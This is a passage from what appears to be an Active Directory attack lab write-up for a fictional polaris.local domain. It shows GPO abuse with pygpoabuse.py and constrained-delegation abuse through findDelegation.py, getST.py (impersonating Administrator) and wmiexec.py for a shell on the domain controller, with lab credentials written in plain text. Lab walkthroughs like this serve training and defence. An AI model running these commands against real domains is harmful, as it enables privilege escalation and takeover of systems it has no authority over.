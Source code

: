 2. Exploit the GPO.
```bash
python3 pygpoabuse.py polaris.local/hank.schrader:'sHyangja@10' -gpo-id "<gpo-id>"
```
3. Then, we either wait for the policy to be updated and executed or force it using `gpupdate /force` on our DC.

#### Constrained Delegation
1. Find all the constrained delegations.
```bash
findDelegation.py POLARIS.LOCAL/jesse.pinkman:Wang0Tang0! -target-domain polaris.local
```
2. To abuse the constrained delegation with protocol transition, the concept is to first ask a TGT for the user and execute S4U2Self followed by a S4U2Proxy to impersonate an admin user to the SPN on the target.
```bash
getST.py -spn 'CIFS/DC1.polaris.local' -impersonate Administrator -dc-ip '192.168.122.10' 'polaris.local/walter.white:Metho1o590oA$elry'
export KRB5CCNAME=Administrator.ccache
```

3. Obtain a shell whit the ticket received.
```bash
wmiexec.py -k -no-pass polaris.local/administrator@dc1.polaris.local
```






